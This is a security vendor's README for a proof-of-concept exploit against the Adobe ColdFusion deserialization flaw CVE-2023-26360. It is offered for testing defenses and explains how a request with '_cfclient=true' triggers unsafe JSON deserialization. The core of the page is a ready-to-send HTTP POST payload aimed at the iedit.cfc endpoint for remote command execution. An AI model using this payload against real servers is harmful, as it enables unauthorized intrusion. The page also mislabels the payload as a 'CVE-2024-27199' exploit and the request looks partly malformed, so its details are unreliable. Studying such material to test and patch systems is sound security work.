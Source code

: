 # Adobe ColdFusion CVE-2023-26360 PoC Exploit
CISA released an advisory on a critical vulnerability found in Adobe ColdFusion web servers. The vulnerability allows adversaries to gain initial access to public-facing Adobe ColdFusion web servers. <br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2023-26360 vulnerability.

Test security controls against the CVE-2023-26360 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-26360 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [CVE-2023-26360: Adobe ColdFusion Servers Exploited for Initial Access](https://www.picussecurity.com/resource/blog/cve-2023-26360-adobe-coldfusion-servers-exploited-for-initial-access)


CVE-2023-26360 Proof-of-concept (POC)
----------------------
CVE-2023-26360 is an improper access control vulnerability caused by deserializing untrusted data without proper validation. When an attacker crafts a malicious HTTP request with "_cfclient=true" in the URL, the Adobe ColdFusion server invokes the "convertToTemplateProxy" function and deserializes the malicious JSON input provided by the attacker. Adversaries use this method for different purposes, such as arbitrary code execution, arbitrary file read, and remote code execution. 

The example HTTP POST request below exploits the CVE-2023-26360 vulnerability to execute arbitrary commands remotely.

#### Example CVE-2024-27199 Exploit:
```http
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo^&_cfclient=true HTTP/1.1
_variables={"_metadata":{"classname":"\..\runtime\work\Catalina\localhost\tmp\hax.tmp"},"_variables":{}}
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved. 
